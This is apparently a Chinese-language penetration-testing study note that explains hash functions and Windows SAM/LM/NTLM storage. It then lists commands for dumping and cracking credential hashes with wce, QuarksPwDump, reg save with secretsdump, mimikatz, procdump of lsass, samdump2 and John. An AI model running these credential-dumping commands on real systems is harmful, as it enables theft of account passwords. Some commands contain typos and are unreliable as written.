

# hash哈希

> 散列-哈希，就是把任意长度的输入，通过散列算法，变换成固定长度的输出，该输出就是散列值。
>
> 这种转换是一种压缩映射，也就是，散列值的空间通常远小于输入的空间，**不同的输入可能会散列成相同的输出**，所以不可能从散列值来唯一的确定输入值。简单的说就是一种将任意长度的消息压缩到某一固定长度的消息摘要的函数。

‍

##### 常见hash

MD4，基于32位操作数的位操来实现的

MD5  16/32位，比MD4更复杂，并且速度慢，但更安全

SHA-1及其他：**对**​**长度小于264的输入****，**​**产生160bit****，**​**抗穷举行更好**

‍

##### hash算法应用

1. 文件校验：奇偶校验和CRC校验，但没有抗数据篡改的能力，MD5算法是目前应用最广泛的一种文件完整性校验和的算法
2. 数字签名：对hash值，又称“数字摘要”进行数字签名，在统计上可以认为与对文件本身进行数字签名是等效的
3. 基于口令的加密

## Windows本地认证

### 本地认证

‍

> 	Windows系统登陆账号存储位置:**C:\Windows\System32\config\SAM**
>
> 在Windows系统中，对用户账户的安全管理采用了SAM(Security Account Manager，安全账号管理)机制，用户  
> 账户以及密码经过Hash加密之后，都保存在SAM数据库中。
>
> 	SAM两种加密方式LM加密和NTLM加密
>
> 对于Windows2K3之前，包括win2K3系统，采用的是LM口令散列，对于Windows2K3之后的系统，采用的是NTLM口令散列。LM和NTLM都是基于Hash加密，LM口令散列的安全性相对比较差。尽管现在已很少有人使用  
> Windows2k之前的老版本系统，但为了保持向后兼容性，默认情况下，系统仍会将用户密码分别用这两种机制加密  
> 后存放在SAM数据库里。

​​​​

​​

​​

​​

​​

​​

​​

​​

​​

‍

### hash获取

##### wce.exe（system权限）

注意:要在system权限下获取hash。如果是普通用户权限，要提权后获取

将文件上传到目标机-》打开cmd运行该文件

​​

##### QuarksPWDump获取hash

打开cmd运行

```bash
QuarksPwDump.exe -h  查看参数设置
-dhl  获取本地hash
-dhdc 获取域内hash
-dhd  导出域控哈希值 必须指定NTDS文件
-db   导出bitocker信息，必须指定NTDS文件
-nt   导出ntds文件
-hist 导出历史信息，可选项
-t    导出类型可选默认导出为John类型。
-o    导出文件到本地
```

​​

###### 栗子

```bash
QuarksPwDump.exe -dhl -o 1.txt
```

​​

‍

##### 常规免杀方式获取hash

导出文件

```bash
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save hklm\SECURITY security.hiv
secretsdump.py -sam sam.hiv -security security.hiv -system sys.hiv LOCAL
```

‍

mimikatz猕猴桃

privilege::debug     //进入debug模式

sekurlsa::logonpasswords//获取密码

‍

procdump

-accepteula -ma laass.exe las

 log "sekurlas::minidump lsass.dump" "sekurlsa::logonpasswords full"

‍

‍

kali自带的samdump2

samdump2 system.hiv sam.hive > hash.txt

john -format=NT hash.txt

‍

‍

​​

​​

​​

​​

‍

​​

​​

‍
